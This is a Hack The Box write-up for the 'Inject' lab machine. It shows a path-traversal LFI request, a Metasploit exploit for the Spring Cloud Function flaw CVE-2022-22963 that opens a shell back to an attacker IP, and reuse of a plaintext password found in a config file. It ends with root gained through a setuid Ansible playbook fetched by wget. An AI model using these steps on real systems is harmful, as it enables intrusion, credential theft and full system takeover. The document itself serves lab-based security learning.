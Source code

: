 # Inject HTB machine

**A machine with a web service that is vulnerable to Local File Inclusion (LFI) and has a vulnerability in the Spring Cloud module of the Spring framework.**

After copying the ip address of the machine, we try to access the machine website but we do not get any response. Let's scan the ports of the machine with nmap:

```
nmap -sV 10.10.11.204
```

We get the following message:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 15:10 EDT
Nmap scan report for inject.htb (10.10.11.204)
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  nagios-nsca Nagios NSCA
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.69 seconds
```

So, port 8080 is open instead of port 80 which is the default port for web services. Let's try to access the specific port by entering "10.10.11.204:8080" in the navigation menu of the browser.

After examinating the web page, we find an upload section where we can upload a picture and view it. We can try uploading a picture and use burpsuite to examine the requests. If we click on "View your image" we can check that the request is the following:

```
GET /show_image?img=test_image.png HTTP/1.1
Host: 10.10.11.204:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.11.204:8080/upload
Upgrade-Insecure-Requests: 1
```

So we can observer that it is requesting the image file from the server. "?img=test_image.png" is a query parameter appended to the URL. It specifies additional information for the server. In this case, it indicates that the requested resource is an image file named "test_image.png". Let's try if the website is vulnerable to Local File Inclusion (LFI). Instead of "test_image.png" we can provide a LFI command like "../../../../../../../". After trying out LFI commands we can see that the website is indead vulnerable to that. After examinating the machine structure, we find the file "pom.xml" that specifies that the Spring framework version 2.6.5 is being used. This is the request to see the file:

```
GET /show_image?img=../../../../../../../var/www/WebApp/pom.xml HTTP/1.1
Host: 10.10.11.204:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.11.204:8080/upload
Upgrade-Insecure-Requests: 1
```


The specific version has a vulnerability in the cloud function, as mentioned in the following website:

https://nvd.nist.gov/vuln/detail/CVE-2022-22963

We can find the exploit in the following link:

https://www.rapid7.com/db/modules/exploit/multi/http/spring_cloud_function_spel_injection/

We can use metasploit to achieve connection with the machine. Execute "msfconsole", "use exploit/multi/http/spring_cloud_function_spel_injection", "set lhost 10.10.16.54" (put your ip), "set rhost 10.10.11.204", "run", "shell". Now you can check that you have achieved connection by executing a command, like "whoami". You are connected as user "frank". 

After examinating the machine, we find the file "/home/frank/.m2" that contains the login credentials for the "phil" user. We can try "su phil" and the password in the file "DocPhillovestoInject123". Now, we can get the user flag under phil's directory.

We need to search clues and potential entry points for privilege escalation. We can find a file named "playbook_1.yml" under the directory "/opt/automation/tasks". It is a snippet of a YAML file, specifically an Ansible playbook. Ansible is an open-source automation tool used for configuring and managing systems. This documentation contains valuable information to help us construct a playbook file so we can achieve privilege escalation. Let's create the following file in our pc:

```
- hosts: localhost
  tasks:
  - name: Get Root
    command: chmod u+s /bin/bash
    become: true
```

Here's a breakdown of what this playbook does:

hosts: localhost: Specifies that the playbook tasks will be executed on the local machine where Ansible is being run.

tasks: Represents a list of tasks to be performed on the target host.

name: Get Root: Provides a descriptive name for the task, indicating the intention to obtain root access.

command: chmod u+s /bin/bash: Executes the command chmod u+s /bin/bash as a task. This command sets the "setuid" bit on the /bin/bash executable. The "setuid" bit, when set on an executable file, allows the user who executes it to gain the privileges of the file's owner, in this case, root. By setting the "setuid" bit on /bin/bash, any user who executes /bin/bash will effectively gain root privileges.

become: true: Indicates that the task should be executed with privilege escalation. The become keyword is used in Ansible to escalate the user's privileges to perform privileged actions. In this case, it aims to execute the command with root privileges.

We can start a server in our pc by executing "python3 -m http.server". Then we can retrieve the file from the machine by executing "wget http://10.10.16.54:8000/playbook_2.yml"(substitute with your ip). Then, once the file is in the "/opt/automation/tasks/" folder, we can execute "bash -p" to turn on privileged mode. In this mode, the $BASH_ENV and $ENV files are not processed, shell functions are not inherited from the environment, and the SHELLOPTS, BASHOPTS, CDPATH, and GLOBIGNORE variables, if they appear in the environment, are ignored. If the shell is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, no startup files are read, shell functions are not inherited from the environment, the SHELLOPTS, BASHOPTS, CDPATH, and GLOBIGNORE variables, if they appear in the environment, are ignored, and the effective user id is set to the real user id. If the -p option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.

Now, if we execute "whoami" we can see that we achieved "root" access.

Congrats! We are now "root" user and we can display the root flag under the "/root" directory.
